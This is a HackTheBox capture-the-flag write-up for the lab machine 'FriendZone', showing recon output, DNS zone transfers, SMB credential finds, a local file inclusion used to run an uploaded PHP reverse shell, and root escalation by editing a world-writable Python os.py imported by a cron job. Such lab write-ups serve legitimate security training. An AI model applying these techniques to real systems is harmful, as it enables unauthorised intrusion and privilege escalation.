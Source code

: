 ```yaml
---
title: "HackTheBox - WriteUp 4"
date: 2019-05-18T13:02:03+08:00
description: "HackTheBox 练手 - FriendZone - DNS Zone Transfer Attack"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# FriendZone

## Before Attack

`nmap -A -Pn -p1-65535 10.10.10.123`

Response:

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   http/1.1
|_  http/1.1
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

Found `53/tcp` & SMB, check SMB first.

### SMB 

`nmap --script smb-enum-shares -p139,445 10.10.10.123` found shares and their absolute path.

Use `smbclient` to access:

```
$ smbclient -L -U guest -N //10.10.10.123

        Sharename       Type      Comment                                                            
        ---------       ----      -------                                                         
        print$          Disk      Printer Drivers                                                 
        Files           Disk      FriendZone Samba Server Files /etc/Files  {NO PERM}                         
        general         Disk      FriendZone Samba Server Files             {RO}                                          
        Development     Disk      FriendZone Samba Server Files             {RW}              
        IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))   
```

Get the files from share:  `/mnt/smb/general/creds.txt`

```
creds for the admin THING:
admin:WORKWORKHhallelujah@#
```

### 53/TCP DNS

Trying to access the web, notice you that you cannot access via IP directly, so let's make the `/etc/hosts` first.

Do a zone transfer scan:

```
╰─ dig axfr friendzoneportal.red @10.10.10.123  

; <<>> DiG 9.14.1 <<>> axfr friendzoneportal.red @10.10.10.123
;; global options: +cmd
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red.   604800  IN      AAAA    ::1
friendzoneportal.red.   604800  IN      NS      localhost.
friendzoneportal.red.   604800  IN      A       127.0.0.1
admin.friendzoneportal.red. 604800 IN   A       127.0.0.1
files.friendzoneportal.red. 604800 IN   A       127.0.0.1
imports.friendzoneportal.red. 604800 IN A       127.0.0.1
vpn.friendzoneportal.red. 604800 IN     A       127.0.0.1
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 1025 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: 二 5月 14 15:08:02 CST 2019
;; XFR size: 9 records (messages 1, bytes 309)
```

```
╰─ dig axfr friendzone.red @10.10.10.123                         

; <<>> DiG 9.14.1 <<>> axfr friendzone.red @10.10.10.123
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 1023 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: 二 5月 14 15:07:49 CST 2019
;; XFR size: 8 records (messages 1, bytes 289)
```

Finally, these sites are accessible via web:

```
$ cat /etc/hosts

10.10.10.123 friendzoneportal.red
10.10.10.123 friendzone.red
10.10.10.123 administrator1.friendzone.red
10.10.10.123 uploads.friendzone.red
```

## Start attack

### Gobuster first

`gobuster -k -u https://administrator1.friendzone.red -w /root/dictlist/DirBuster-Lists/directory-list-2.3-medium.txt -x php -o gobus123.txt`

Response:

```
/images (Status: 301)
/login.php (Status: 200)
/dashboard.php (Status: 200)
/timestamp.php (Status: 200)
```

Timestamp?? Really strange...

### Access as admin

Trying to access VSFTPD, got permission denied, password incorrect.

Trying to access `https://administrator1.friendzone.red/login.php`, get: `Login Done ! visit /dashboard.php`

Check the dashboard, found `https://administrator1.friendzone.red/login.php?image_name=a.jpg&pagename=timestamp`

Using the last result of gobuster, you may guess there's a LFI here. That's it.

> https://uploads.friendzone.red/   {UPLOAD FORM NOT WORKING, RABBIT HOLE}

The only way to upload the file is via SMB, you have RW permission only on Development.

So upload a php reverse shell from pentest monkey and LFI it through the param `pagename` without file extension.

### Reverse shell

Access: `https://administrator1.friendzone.red/login.php?image_name=a.jpg&pagename=shell`

Before that, don't forget to modify the php reverse shell and get your `nc` ready in the terminal.

Next, just walk through the `/var/www` (the home of www-data). You will find a credential and login into ssh to get a interactive shell now.

```
$ cat /var/www/mysql_data.conf

db_user=friend
db_name=FZ
db_pass=Agpyu12!0.213$
```

### Interactive Shell and Privilege Escalation

Run LinEnum and Pspy and also LinuxPrivilegeChecker, Got the following results:

```
PSPY: /bin/sh -c /opt/server_admin/reporter.py (UID=0, Python2.7, ExecStart by CRON)

LinEnum:

[-] Accounts that have recently used sudo:
/home/friend/.sudo_as_admin_successful

PrivilegeChecker:

[+] World Writable Files
    -rwxrw-rw- 1 nobody nogroup 11 May 17 15:58 /etc/Development/hell.txt
    -rwxrw-rw- 1 nobody nogroup 31 May 17 16:17 /etc/Development/hsi.php
    -rwxrw-rw- 1 nobody nogroup 604 May 17 12:03 /etc/Development/hello.php
    -rwxrw-rw- 1 nobody nogroup 68 May 17 15:54 /etc/Development/fpin.php
    -rwxrw-rw- 1 nobody nogroup 5493 May 17 18:48 /etc/Development/prsb.php
    -rw-rw-rw- 1 root root 0 May 17 11:45 /sys/kernel/security/apparmor/.remove
    -rw-rw-rw- 1 root root 0 May 17 11:45 /sys/kernel/security/apparmor/.replace
    -rw-rw-rw- 1 root root 0 May 17 11:45 /sys/kernel/security/apparmor/.load
    -rw-rw-rw- 1 root root 0 May 17 11:45 /sys/kernel/security/apparmor/.access
    --w--w--w- 1 root root 0 May 17 19:08 /sys/fs/cgroup/memory/cgroup.event_control
    -rwxrwxrwx 1 root root 25910 Jan 15 22:19 /usr/lib/python2.7/os.py
```

So, let's check `/opt/server_admin/reporter.py` :

- Permission 644, We only can read.
- A health check script written in python to send a mail, but the send command was commented.
- `import os`

`/usr/lib/python2.7/os.py` Should only be readable in normal system, however, here, we got 777: So just modify the file to do anything you want, just don't forget always put your code at the file end.

DONE.
